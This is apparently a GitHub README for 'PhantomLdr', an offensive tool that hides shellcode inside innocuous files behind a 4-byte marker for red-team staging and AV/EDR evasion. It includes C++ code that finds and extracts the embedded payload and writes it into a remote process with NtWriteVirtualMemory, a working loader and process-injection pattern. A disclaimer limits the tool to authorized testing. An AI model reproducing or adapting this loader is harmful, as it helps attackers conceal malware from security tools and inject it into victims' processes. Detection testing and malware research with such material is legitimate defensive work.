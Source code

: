 # PhantomLdr

![Status](https://img.shields.io/badge/status-stable-green?style=flat-square)
![Python](https://img.shields.io/badge/python-3.x-blue?style=flat-square)

**PhantomLdr** Allow you to **embed shellcode into non-sensitive binary files** using a custom 4-byte marker. It's designed for red teaming, offensive research, or obfuscation techniques in controlled environments.

> ⚠️ **Disclaimer:** This tool is for **educational and authorized security research only**. Use it in **isolated environments** or during **authorized penetration testing engagements**. The developer assumes no responsibility for misuse.

---

## 🎯 Use Case

PhantomLdr is ideal for:

- Red Team payload staging simulations
- Malware evasion and forensic evasion research
- Detection rule testing (EDR, AV, YARA)
- Malware reverse engineering training labs

---

## ✨ Features

- Embeds arbitrary shellcode into any non-sensitive file
- Avoids tampering with sensitive/critical extensions (e.g., `.exe`, `.dll`)
- Custom 4-byte ASCII marker for locating payload in post-processing

---


## How to implement on Visual studio

```cpp
std::vector<char> extractShellcode(const char* data, size_t size, const char* marker = "Z3R0") {
	if (!marker || strlen(marker) != 4) {
		return {};
	}

	for (size_t i = 0; i < size - 8; ++i) {
		if (data[i] == marker[0] &&
			data[i + 1] == marker[1] &&
			data[i + 2] == marker[2] &&
			data[i + 3] == marker[3]) {

			uint32_t len = *(uint32_t*)&data[i + 4];

			if (i + 8 + len > size) {
				return {};
			}

			return std::vector<char>(data + i + 8, data + i + 8 + len);
		}
	}

	return {};
}

std::vector<char> buffer = extractShellcode(data, size, marker);
NtWriteVirtualMemory(pi.hProcess, remoteAddr, buffer.data(), buffer.size(), NULL);
```

